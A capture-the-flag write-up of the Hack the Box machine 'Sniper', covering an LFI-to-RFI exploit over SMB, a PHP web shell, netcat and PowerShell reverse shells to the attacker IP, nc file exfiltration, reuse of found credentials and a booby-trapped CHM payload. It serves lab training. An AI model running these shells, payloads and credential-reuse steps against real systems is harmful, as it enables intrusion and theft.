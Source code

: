 +++
author = "Nick"
categories = ["hack the box", "LFI", "RFI", "PHP", "reverse shell", "Powershell", "rsync", "netcat", "windows", "chm"]
date = 2020-03-28T15:08:24Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/12/sniper.png"
slug = "hack-the-box-sniper"
summary = "Welcome everyone. Today we will be doing the machine Sniper on Hack the Box. The machine is a Windows machine and listed as medium in difficulty. Let's jump in!"
tags = ["hack the box", "LFI", "RFI", "PHP", "reverse shell", "Powershell", "rsync", "netcat", "windows", "chm"]
title = "Hack the Box - Sniper"

+++


Welcome everyone. Today we will be doing the machine Sniper on Hack the Box. The machine is a Windows machine and listed as medium in difficulty. Let's jump in!

As usual, we kick it off with our ```nmap``` scan: ```nmap -sC -sV -oA initial_scan 10.10.10.151```
The results came back pretty limited, so we rerun the nmap with ```-p-``` for all ports and speed it up a bit with ```-T4```.

```
Nmap scan report for 10.10.10.151
Host is up (0.053s latency).
Not shown: 65530 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Sniper Co.
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 8h00m58s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-11-27T23:15:28
|_  start_date: N/A
```

We see a webserver running so we go to see what it's hosting. The site is a logistics site. We take a look at the source but there's nothing of any use there. We do see the ```body``` tag being repeated a few times, which is a bit odd. We do see we have some additional routes though. We have ```/blog``` and ```/user```. We explore those pages and the links that they contain. We see there is also a ```registration.php```. So to get a better idea of what might be here we'll use ```gobuster``` to start enumerating possible new locations and pages.

We'll give it our standard command: ```gobuster dir -u http://10.10.10.151 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x php```.

While that run's we will quckly point ```SQLMap``` and the ```/blog/?lang=blog-es.php``` route and see what it might find. Nothing shows up. We'll load up ```Burpsuite``` and see what the requests are actually doing. 

We get our proxy turned on and start looking at the requests. The first request that we want to look at is obviously ```/blog/?lang=``` since this has potential for exploit. We play with the request a few times and finally find a ```LFI```.

![](/images/2019/12/image-5.png" caption="We request the system.ini file)

![](/images/2019/12/image-6.png" caption="And here it is.)

So it looks like we have an LFI we can exploit. Now we need convert this LFI into somehow. Thankfully Windows will let us execute scripts on ```SMB``` shares. Explicitly this [RFI PHP Bypass](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html). So we'll need to create a reverse shell script and remote execution script, spin up an SMB share and then call the script via our LFI. 

We'll start with making a ```Meterpreter``` reverse shell with ```MSFPC```. 
Command: ```MSFPC windows tun0 4444```

Now that we have our shell, we will get a SMB server running. Originally I spun up the share with ```impacket``` but that failed to work, so we will need to turn on our hosting locally, following the instructions linked above:

```
mkdir /var/www/html/pub/ 
chmod 0555 /var/www/html/pub/
chown -R nobody:nogroup /var/www/html/pub/
echo > /etc/samba/smb.conf
echo -e "[global]\nworkgroup = WORKGROUP\nserver string = Samba Server %v\nnetbios name = name-me\nsecurity = user\nmap to guest = bad user\nname resolve order = bcast host\ndns proxy = no\nbind interfaces only = yes\n[ica]\npath = /var/www/html/pub\nwritable = no\nguest ok = yes\nguest only = yes\nread only = yes\ndirectory mode = 0555\nforce user = nobody" > /etc/samba/smb.conf
service smbd restart 
```
We can take those commands above and slap them in a ```.sh``` file for easy repeatability should we want to.
  
Now we need to have a way for our shell to executed. There are a few ways to do this, the most common being use a premade reverse shell execution script or make one using ```<?php echo shell_exec($_GET[‘cmd’]); ?>```. This will let you append CMD at the end of the .php call and execute something. In this case I used [WhileWinterWolfs PHP shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php).

Now that we have our pieces in place, let's execute! We head over to our browser and go to ```http://10.10.10.151/blog/?lang=//10.10.15.177/ica/wolfshell.php```. This will make the server load the file from our ```SMB``` share and give us a shell back to itself.

![](/images/2019/12/image-7.png)

We have a shell as ```iusr```. We need to convert this into a more permanent shell. We will upload our previously created payload to the system and execute it. 

During the upload we seem to keep getting some errors. Possibly due to Windows Defender eating our payload(s). So we'll get a bit more lowtech and basic. We can upload a ```netcat``` binary and just use that to forward a shell to us.

![](/images/2019/12/full_nc.gif)

Now that we have a more stable shell type, lets enumerate. In the ```inetpub``` structure we see some interesting files:

![](/images/2019/12/image-8.png)

Inside the ```db.php``` file we some credentials.

Creds:
```dbuser``` | ```36mEAhz/B8xQ~2VM```

These credentials very well could work for the user we are after, Chris. So we will try and escalate our permissions to his account via ```Powershell```. You need a bit of understanding on ```Powershell``` usage but it's pretty simple when we think about it. We need to store these credentials as variables, then pass them to the process we want to run.

```
$username = 'sniper\chris'
$pass = '36mEAhz/B8xQ~2VM'
$securePass = ConvertTo-SecureString $pass -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username,
$securePass
$session = New-PSSession -ComputerName Sniper -Credential $credential
Invoke-Command -Session $session -ScriptBlock { C:\tmp\nc.exe -e cmd.exe 10.10.15.177 9999}
```

Here's a quick breakdown of the above. The ```$username``` variable stores our username. The ```$pass``` stores our password. We then convert the ```$pass``` variable into a secured variable that we can pass to other functions. With ```$credential``` we store the ```$username``` and secured ```$pass```. We then create a new session with ```New-PSSession```. This created a new "sub session" within the machine. Then we finally tell that session to forward a escalated shell via ```nc.exe```.

![](/images/2019/12/escalate.gif)

Now that we have a shell as Chris, let's enumerate again! There is a file called ```Instructions.chm``` in the ```Downloads``` folder. We also see there is a folder called ```Docs``` on the root of C. Inside we have a few files.

![](/images/2019/12/image-9.png)

We will send the .chm over to our machine with nc: 
```C:\temp\nc64.exe -w 3 10.10.15.177 777 < instructions.chm```

Catch it with the corresponding listener: 
```nc -lvnp 777 > instructions.chm```

This is what we see when we open the file:

![](/images/2019/12/image-10.png)

Nothing of great use. However based on what we saw, we know that the CEO is expecting some documentation to land in the Docs directory. Maybe we can craft a payload and when the CEO opens it, compromises him. Luckily for us, we have the means [to do just that](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1).

We'll clone this repo down to our Windows machine. We run the command in Powershell to create our payload:

```Out-CHM -Payload "C:\tmp\nc.exe 10.10.15.177 7331 -e cmd.exe" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"```

This creates the payload. We then need to get our payload to ```C:\Docs```. Spin up a ```SimpleHTTPServer``` to host our file. Then use ```invoke-webrequest``` in powershell to get the file to download.

```invoke-webrequest -uri http://10.10.15.177/safe.chm -outfile C:\Users\Chris\Documents\safe.chm```

Once we download it, we move it to ```C:\Docs``` and wait for a shell.

![](/images/2019/12/lsat_step.gif)

We have a shell as root!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

